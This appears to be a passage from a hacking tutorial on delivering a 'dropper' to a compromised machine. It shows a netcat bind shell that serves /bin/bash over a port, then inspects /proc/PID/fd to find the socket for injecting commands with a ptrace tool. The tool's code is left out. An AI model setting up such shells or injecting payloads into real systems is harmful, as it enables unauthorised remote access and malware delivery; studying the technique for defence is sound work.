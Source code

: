 # Dropping a Dropper like a pro

At this point, we are done with this lesson, but as this was a little bit light, let's add a bit of coolness. Yes, sure, we can drop our dropper just pasting the previous `echo` command in our interactive console, or redirecting the file using whatever tool we already use to get into our interactive session. But, let's face it. That is a pretty boring way of doing it.

So, what we are going to do is to attach to the interactive shell program (in this example we will be using `nc`), and drop our commands directly on the open socket to the remote machine. In order to figure out which socket you need to write to, we can check `/proc/PID/fd`. Let's setup our environment.

Suppose we have got access to machine `target` and started a remove shell using `nc.openbsd` (the other one does not have the flag `-e`). Something like this:

    hacker@target $ nc -e /bin/bash -l -p 1234
	
Now, from the hackers machine we can start a remote shell session like this:

    hacker@hackerbox $ nc target 1234
	
At this point, we have a TCP connection to machine `target` going on. If we now get the pid can check the open file descriptors for this process:

    hacker@hackerbox $ ps ax | grep ""nc target"" | head -1
     8095 pts/37   S+     0:00 nc target 1234
	hacker@hackerbox $ ls -l /proc/8095/fd
	total 0
	lrwx------ 1 pico pico 64 Sep 12 11:25 0 -> /dev/pts/37
	lrwx------ 1 pico pico 64 Sep 12 11:25 1 -> /dev/pts/37
	lrwx------ 1 pico pico 64 Sep 12 11:25 2 -> /dev/pts/37
	lr-x------ 1 pico pico 64 Sep 12 11:25 3 -> 'pipe:[45281146]'
	l-wx------ 1 pico pico 64 Sep 12 11:25 4 -> 'pipe:[45281146]'
	lrwx------ 1 pico pico 64 Sep 12 11:25 5 -> 'socket:[60870195]'

	
Here we can see the three first file descriptors associated to the pseudoterminal, namely: `stdin`, `stdout` and `stderr`. Then a `pipe` what I'm not sure why it is created for, but it would be a nice exercise to check it out.

Finally, we can see that file descriptor 5 is our socket... So now we know where to write our stuff.

# Attaching to the process. Meeting `ptrace`

It is time to start writing our cool tool. It will attach to any process as a debugger and write some data to a given file descriptor within that process. The way to achieve this is using the system call `ptrace`.

Again, the program may look complex at first glance, but it is just a basic sequence of system calls being executed sequentially... Actually it is just one single system call (`ptrace`) being executed with different parameters.

I will not put all the code here. You can find it on my [github repository](https://github.com/0x00pf/0x00sec_code). Here I will just include the relevant parts of the program.
